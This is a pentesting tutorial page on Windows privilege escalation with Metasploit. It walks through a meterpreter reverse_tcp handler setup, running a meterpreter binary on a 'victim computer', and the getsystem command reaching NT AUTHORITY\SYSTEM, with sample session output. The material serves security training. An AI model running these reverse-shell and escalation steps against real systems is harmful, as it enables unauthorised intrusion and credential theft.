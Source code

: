 ```yaml
---
title: GETSYSTEM for Privilege Escalation
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 2
---
```


# GETSYSTEM for Privilege Escalation

## Introduction

Acquiring SYSTEM privileges on a Windows system is a crucial task for penetration testers and red teamers, enabling them to carry out advanced post-exploitation actions such as credential extraction and accessing confidential data. The GETSYSTEM command within Meterpreter proves to be a potent tool, empowering attackers to elevate privileges and execute commands at the SYSTEM level.

## Step-by-Step Guide

### 1. Create the meterpreter binary
    
How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.html)

### 2. Open Metasploit Console

```bash
msfconsole
```

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer


### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Use 'getsystem' command to escalate to SYSTEM-leve access
```bash
meterpreter > getuid
Server username: WIN-AJ4C67166DE\win7
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Video Demonstration

[<img src="https://img.youtube.com/vi/TJF_LnRMdCk/hqdefault.jpg"
/>](https://www.youtube.com/embed/TJF_LnRMdCk)

## Reference
https://www.offsec.com/metasploit-unleashed/keylogging/#using-a-keylogger-with-metasploit